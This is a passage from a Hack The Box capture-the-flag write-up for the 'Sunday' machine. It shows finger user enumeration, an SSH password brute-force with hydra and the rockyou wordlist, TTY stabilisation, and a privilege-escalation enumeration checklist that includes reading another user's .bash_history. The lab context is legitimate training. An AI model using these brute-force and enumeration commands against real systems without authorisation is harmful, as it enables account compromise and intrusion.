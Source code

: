 ```bash
perl finger-user-enum.pl -U /usr/share/dirbuster/wordlists/names.txt -t 10.10.10.76
```

![Untitled](/HTB/finger-sunday.png)

So the next thing I did was to try with hydra to connect via ssh to the machine, and these were the results:

```bash
hydra -I -l sammy -P '/usr/share/wordlists/rockyou.txt' 10.10.10.76 ssh -s 22022
```

![Untitled](/HTB/hydra-sunday.png)

And I found some users like: sammy, sanny, root, etc.

![Untitled](/HTB/ssh-sunday.png)

So I was in 😎

## Treatment of tty

```bash
 script /dev/null -c bash
 ctrl + z
 stty raw -echo; fg
 restet xterm
 export TERM=xterm

```

## Escalating Privileges

As always I do :

```bash
 sudo -l
 cat /etc/crontab
 find / -perm -4000 2>/dev/null
 find / -type f -writable 2>/dev/null
 bash procmon.sh
 lsb_release -a
 uname -a
 id
 getcap -r / 2>/dev/null
 netstat -na -p tcp
 ps faux
 (try to do a cat of /.bash_history)
```

When I did a cat on **Sunny** folder `.bash_history`  I found that Sunny did a cat of a backup file, so I did the same and… 😇

![Untitled](/HTB/cat-sunday.png)
